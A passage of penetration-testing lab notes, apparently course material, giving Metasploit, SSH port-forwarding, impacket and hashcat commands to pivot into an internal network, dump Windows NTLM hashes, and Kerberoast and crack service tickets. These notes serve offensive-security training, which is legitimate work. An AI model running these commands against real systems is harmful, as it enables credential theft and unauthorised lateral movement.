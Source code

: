     * check the routingtable
    ```
    background
    route
    ```
    * setup the target ip
    ```
    set RHOSTS 10.130.11.13
    run
    ```
    * dump ntlm hashes
    ```
    run post/windows/gather/hashdump
    ```

## Pivoting with SSH Local Port Forwarding
### SSH
* linux
    * kill all meterpreter sessions
    ```
    exit
    sessions -K
    ```
    * setup ssh port forward
    ```
    ssh bgreen@10.130.10.22 -L 7777:10.130.11.13:445
    ```
    * switch back to metasploit then change the target 
    ```
    set RHOSTS 127.0.0.1
    set RPORT 7777
    run
    run post/windows/gather/hashdump
    ```
<br>

# Kerberos
## Kerberoast
unpriv -> escalate priv
### Enumerate and Request Tickets
* linux
    * use GetUserSPNs.py from impacket
    ```
    GetUserSPNs.py hiboxy.com/bgreen:Password1 -request -dc-ip 10.130.10.4 | tee /tmp/spns.output
    ```

### Crack the Ticket 
* linux
    * save the hashes to a file ready fo cracking
    ```
    grep krb5tgs /tmp/spns.output > /tmp/tickets
    ```
    * crack with hashcat
    ```
    hashcat -m 13100 -a 6 /tmp/tickets /opt/passwords/english-dictionary-capitalized.txt ?d
    hashcat -m 13100 -a 7 /tmp/tickets ?s /opt/passwords/english-dictionary-capitalized.txt
    ```
